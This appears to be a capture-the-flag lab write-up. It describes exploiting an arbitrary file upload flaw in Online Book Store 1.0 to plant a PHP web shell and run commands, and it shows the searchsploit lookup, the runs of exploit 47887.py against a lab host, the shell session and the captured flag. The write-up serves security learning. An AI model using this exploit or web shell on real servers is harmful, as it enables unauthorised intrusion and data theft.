 Goal of the Project:
The goal of my project was to demonstrate a remote code execution (RCE) vulnerability in the Online Book Store 1.0 web application. I wanted to explore how an arbitrary file upload vulnerability could be exploited to gain remote access to the server and execute arbitrary commands.

How I Came to the Solution:
When I started working with the Online Book Store 1.0 web application, I discovered several potential vulnerabilities. One of them was related to the arbitrary file upload feature through the /admin_add.php endpoint. After analyzing it in detail, I realized that if I uploaded a PHP file disguised as an image, I could execute arbitrary commands on the server.

What I Did:
To demonstrate the vulnerability, I wrote a Python script that automatically uploads a malicious PHP file to the server. The PHP file executes the shell_exec command, which allows me to access the server’s shell through a browser. After successfully uploading the file, I used the cmd GET parameter to execute commands on the server, such as listing files or reading the flag’s contents, confirming that the code was successfully executed.

Steps I Took:
File Upload: I wrote a script that generates a random file name and creates a PHP payload with a web shell.

Verification: After uploading the file, I checked if the file was successfully uploaded and the shell was working by sending a GET request with the echo command.

Accessing the Server: When the script confirmed that the upload was successful, I executed arbitrary commands, such as ls to list the file system, or read the flag.txt file to confirm I had full access.

Here’s what my code looks like:
root@ip-10-10-118-2:~# searchsploit online book store
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerabilities                                                                                  | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Injection                                                                                      | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection                                                                                            | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                                                                         | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                                                                         | php/webapps/47887.py
Online Event Booking and Reservation System 1.0 - 'reason' Stored Cross-Site Scripting (XSS)                                          | php/webapps/50450.txt
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@ip-10-10-118-2:~# searchsploit -m 47887.py
  Exploit: Online Book Store 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47887
     Path: /opt/exploitdb/exploits/php/webapps/47887.py
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /root/47887.py


root@ip-10-10-118-2:~# ls
'=2.5,!=2.5.0,!=2.5.2,!=2.6'   burp.json    Desktop     Instructions   Postman   Scripts   thinclient_drives
 47887.py                      CTFBuilder   Downloads   Pictures       Rooms     snap      Tools
root@ip-10-10-118-2:~# nano 47887.py
root@ip-10-10-118-2:~# python 47887.py http://10.10.161.182
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.161.182/bootstrap/img/tnHrqKx1Cm.php
> Example command usage: http://10.10.161.182/bootstrap/img/tnHrqKx1Cm.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
Traceback (most recent call last):
  File "47887.py", line 35, in <module>
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
  File "<string>", line 6, in <module>
NameError: name 'y' is not defined
root@ip-10-10-118-2:~# python3 47887.py http://10.10.161.182
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.161.182/bootstrap/img/zbFpzyd1e5.php
> Example command usage: http://10.10.161.182/bootstrap/img/zbFpzyd1e5.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
OyWjgNLIbq.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
pro_asp4.jpg
pro_js.jpg
tnHrqKx1Cm.php
unnamed.png
web_app_dev.jpg
zbFpzyd1e5.php

RCE $ cat flag.txt
THM{BOOK_KEEPING}

RCE $ 
Conclusion:
This project demonstrates a critical vulnerability in the Online Book Store 1.0 web application that could be exploited for unauthorized access to the server and remote code execution. Exploiting such vulnerabilities can lead to severe security breaches, including data theft and complete server compromise.
